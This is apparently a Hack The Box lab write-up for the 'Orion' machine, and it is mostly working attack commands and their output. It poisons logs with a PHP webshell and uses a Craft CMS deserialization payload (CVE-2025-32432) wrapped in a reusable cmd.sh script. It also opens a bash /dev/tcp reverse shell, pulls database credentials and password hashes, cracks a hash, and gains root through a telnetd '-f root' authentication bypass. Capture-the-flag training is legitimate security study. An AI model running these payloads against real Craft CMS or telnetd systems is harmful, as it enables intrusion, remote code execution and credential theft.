

# Target
| Category          | Details                                                                                                                                                                      |
|-------------------|------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| 📝 **Name**       | [Orion](https://app.hackthebox.com/machines/Orion)                                                                                                                           |  
| 🏷 **Type**       | HTB Machine                                                                                                                                                                  |
| 🖥 **OS**         | Linux                                                                                                                                                                        |
| 🎯 **Difficulty** | Easy                                                                                                                                                                         |
| 📁 **Tags**       | Craft CMS 5.6.16, [CVE-2025-32432](https://nvd.nist.gov/vuln/detail/CVE-2025-32432), Inetutils 2.7 telnet, [CVE-2026-24061](https://nvd.nist.gov/vuln/detail/CVE-2026-24061) |

### User flag

#### Scan target with `nmap`
```
┌──(magicrc㉿perun)-[~/attack/HTB Orion]
└─$ nmap -sS -sC -sV -p- $TARGET
Starting Nmap 7.98 ( https://nmap.org ) at 2026-06-26 15:35 +0200
Nmap scan report for 10.129.24.232
Host is up (0.049s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.15 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
|_  256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://orion.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 22.16 seconds
```

#### Add `orion.htb` to `/etc/hosts`
```
┌──(magicrc㉿perun)-[~/attack/HTB Orion]
└─$ echo "$TARGET orion.htb" | sudo tee -a /etc/hosts
10.129.24.232 orion.htb
```

#### Enumerate web application
```
┌──(magicrc㉿perun)-[~/attack/HTB Orion]
└─$ feroxbuster --url http://orion.htb/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-big.txt -C 404
<SNIP>
302      GET        0l        0w        0c http://orion.htb/admin => http://orion.htb/admin/login
301      GET        7l       12w      178c http://orion.htb/assets => http://orion.htb/assets/
301      GET        7l       12w      178c http://orion.htb/assets/images => http://orion.htb/assets/images/
<SNIP> 
```

#### Discover Craft CMS 5.6.16 is running on target


This version is vulnerable to [CVE-2025-32432](https://nvd.nist.gov/vuln/detail/CVE-2025-32432).

#### Poison logs with webshell
```
┌──(magicrc㉿perun)-[~/attack/HTB Orion]
└─$ curl -s http://orion.htb -H "User-Agent: <?php if(isset(\$_REQUEST['cmd'])){system(\$_REQUEST['cmd']);}die; ?>" -o /dev/null
```

#### Confirm webshell is operational
```
┌──(magicrc㉿perun)-[~/attack/HTB Orion]
└─$ CRAFT_CSRF_TOKEN=$(curl -s -c cookies.txt 'http://orion.htb/index.php/admin/login' | grep -oP 'name="CRAFT_CSRF_TOKEN" value="\K[^"]+') && \
curl -b cookies.txt 'http://orion.htb/index.php?p=admin/actions/assets/generate-transform&cmd=id' \
    -H "Content-Type: application/json" \
    -H "X-CSRF-Token: $CRAFT_CSRF_TOKEN" \
    -d @- <<'EOF'
{"assetId": 11, "handle": {"width": 123, "height": 123, "as session": {"class": "craft\\behaviors\\FieldLayoutBehavior","__class": "yii\\rbac\\PhpManager","__construct()": [{"itemFile": "/var/log/nginx/access.log"}]}}}
EOF
10.10.16.198 - - [02/Jul/2026:16:12:50 +0000] "GET / HTTP/1.1" 200 12293 "-" "uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

#### Prepare `cmd.sh` exploit
```
┌──(magicrc㉿perun)-[~/attack/HTB Orion]
└─$ { cat <<'CMD'> cmd.sh
CRAFT_CSRF_TOKEN=$(curl -s -c cookies.txt 'http://orion.htb/index.php/admin/login' | grep -oP 'name="CRAFT_CSRF_TOKEN" value="\K[^"]+') && \
curl -b cookies.txt "http://orion.htb/index.php?p=admin/actions/assets/generate-transform&cmd=$1" \
    -H "Content-Type: application/json" \
    -H "X-CSRF-Token: $CRAFT_CSRF_TOKEN" \
    -d @- <<'EOF'
{"assetId": 11, "handle": {"width": 123, "height": 123, "as session": {"class": "craft\\behaviors\\FieldLayoutBehavior","__class": "yii\\rbac\\PhpManager","__construct()": [{"itemFile": "/var/log/nginx/access.log"}]}}}
EOF
CMD
} && chmod +x cmd.sh
```

#### Confirm exploit works
```
┌──(magicrc㉿perun)-[~/attack/HTB Orion]
└─$ ./cmd.sh id
10.10.16.198 - - [02/Jul/2026:16:12:50 +0000] "GET / HTTP/1.1" 200 12293 "-" "uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

#### Start `nc` to listen for reverse shell connection
```
┌──(magicrc㉿perun)-[~/attack/HTB Orion]
└─$ nc -lvnp $LPORT
listening on [any] 4444 ...
```

#### Spawn reverse shell connection using `cmd.sh`
```
┌──(magicrc㉿perun)-[~/attack/HTB Orion]
└─$ ./cmd.sh $(echo -n "/bin/bash -c 'bash -i >& /dev/tcp/$LHOST/$LPORT 0>&1'" | jq -sRr @uri)
```

#### Confirm foothold gained
```
connect to [10.10.16.198] from (UNKNOWN) [10.129.24.232] 58434
bash: cannot set terminal process group (964): Inappropriate ioctl for device
bash: no job control in this shell
www-data@orion:~/html/craft/web$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

#### Discover DB credentials in `/var/www/html/craft/.env`
```
www-data@orion:/$ grep DB /var/www/html/craft/.env
CRAFT_DB_DRIVER=mysql
CRAFT_DB_SERVER=127.0.0.1
CRAFT_DB_PORT=3306
CRAFT_DB_DATABASE=orion
CRAFT_DB_USER=root
CRAFT_DB_PASSWORD=SuperSecureCraft123Pass!
CRAFT_DB_SCHEMA=
CRAFT_DB_TABLE_PREFIX=
```

#### Discover password hash for user `adam` in `orion` database
```
www-data@orion:/$ mysql -h 127.0.0.1 -u root -p'SuperSecureCraft123Pass!' orion
<SNIP>
MariaDB [orion]> show tables;
+----------------------------+
| Tables_in_orion            |
+----------------------------+
<SNIP>
| users                      |
<SNIP>
+----------------------------+
66 rows in set (0.001 sec)

MariaDB [orion]> select username, password from users;
+----------+--------------------------------------------------------------+
| username | password                                                     |
+----------+--------------------------------------------------------------+
| admin    | $2y$13$e9zuohgFZzGtbQalcn9Mz.5PJbjxobO0GMbXo8NHp3P/B42LUg0lS |
+----------+--------------------------------------------------------------+
```

#### List users with shell access
```
www-data@orion:/$ grep bash /etc/passwd
root:x:0:0:root:/root:/bin/bash
adam:x:1000:1000::/home/adam:/bin/bash
```

#### Crack password hash with `hashcat`
```
┌──(magicrc㉿perun)-[~/attack/HTB Orion]
└─$ hashcat -m 3200 '$2y$13$e9zuohgFZzGtbQalcn9Mz.5PJbjxobO0GMbXo8NHp3P/B42LUg0lS' /usr/share/wordlists/rockyou.txt --quiet --show
$2y$13$e9zuohgFZzGtbQalcn9Mz.5PJbjxobO0GMbXo8NHp3P/B42LUg0lS:darkangel
```

#### Access target over SSH using `adam:darkangel`
```
┌──(magicrc㉿perun)-[~/attack/HTB Orion]
└─$ ssh adam@orion.htb                                        
adam@orion.htb's password: 
<SNIP>
adam@orion:~$ id
uid=1000(adam) gid=1000(adam) groups=1000(adam)
```

#### Capture user flag
```
adam@orion:~$ cat /home/adam/user.txt 
f68037b79c2872f6012cb6173e7a1eef
```

### Root flag

#### Discover `telnet` server running on `127.0.0.1`
```
adam@orion:~$ netstat -natp
<SNIP>                   
tcp        0      0 127.0.0.1:23            0.0.0.0:*               LISTEN      -                   
<SNIP> 
```

#### Identify `telnetd` version
```
adam@orion:~$ cat /etc/inetd.conf 
<SNIP>
127.0.0.1:telnet stream tcp nowait root /usr/local/sbin/telnetd telnetd
<SNIP>
adam@orion:~$ strings /usr/local/sbin/telnetd | grep -i 'gnu\|version\|inetutils'
<SNIP>
/home/jonathan/inetutils-2.7/telnetd
<SNIP>
```
`strings` output might suggest that this is Inetutils 2.7 `telnetd`, which is vulnerable to [CVE-2026-24061](https://nvd.nist.gov/vuln/detail/CVE-2026-24061)

#### Bypass `telnet` authentication with `-f root`  
```
adam@orion:~$ USER="-f root" telnet -a 127.0.0.1
Trying 127.0.0.1...
Connected to 127.0.0.1.
Escape character is '^]'.
<SNIP>
root@orion:~# id
uid=0(root) gid=0(root) groups=0(root)
```

#### Capture root flag
```
root@orion:~# cat /root/root.txt 
4f6590d0a9bc802826dc775bda37c4b2
```
